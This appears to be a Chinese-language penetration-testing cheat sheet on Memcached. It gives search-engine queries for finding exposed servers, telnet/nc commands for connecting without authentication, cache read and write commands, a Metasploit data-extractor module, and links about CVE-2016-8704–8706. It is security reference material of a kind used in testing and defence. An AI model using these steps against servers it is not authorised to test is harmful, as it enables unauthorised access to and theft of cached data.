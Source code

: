 
### memcached

`Memcached 是一套常用的 key-value 分布式高速缓存系统`

> shodan: "product:Memcached"
> fofa: app="MEMCACHED"

**相关文章**
- [针对Memcached缓存服务器的渗透测试方法介绍](https://www.freebuf.com/articles/web/201086.html)

**未授权访问漏洞**
- 描述

    由于 Memcached 的安全设计缺陷没有权限控制模块，所以对公网开放的 Memcache 服务很容易被攻击者扫描发现，攻击者无需认证通过命令交互可直接读取 Memcached 中的敏感信息。

- POC | Payload | exp

    `telnet [ip] 11211`

    `nc -vv [ip] 11211`

    ```bash
    version         # 检查 Memcached Server 的当前版本
    stats           # 查看 memcache 服务状态
    stats slabs     # 获取 slab 统计信息
    stats items     # 显示各个 slab 中 item 的数目和存储时长
    set aaa 0 10 9  # 存个 aaa 值
    # flag → 0  (可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息)
    # exptime → 10 (以秒为单位)
    # bytes → 9 (数据存储的字节数)

    memcached

    get aaa         # 读这个值
    ```

- MSF 模块
    ```
    use auxiliary/gather/memcached_extractor
    ```

**CVE-2016-8704 & CVE-2016-8705 & CVE-2016-8706**
- 描述

    Memcached 是一个分布式的高速缓存系统，近日研究者发现在其 < 1.4.33 的版本中存在三个整数溢出漏洞（http://blog.talosintel.com/2016/10/memcached-vulnerabilities.html），通过这几个漏洞攻击者可以触发堆溢出进而远程执行任意命令。官方在 11 月 1 日发布了升级公告。

- 相关文章
    - [Memcached 命令执行漏洞（CVE-2016-8704、CVE-2016-8705、CVE-2016-8706）简析](https://paper.seebug.org/95/)

---
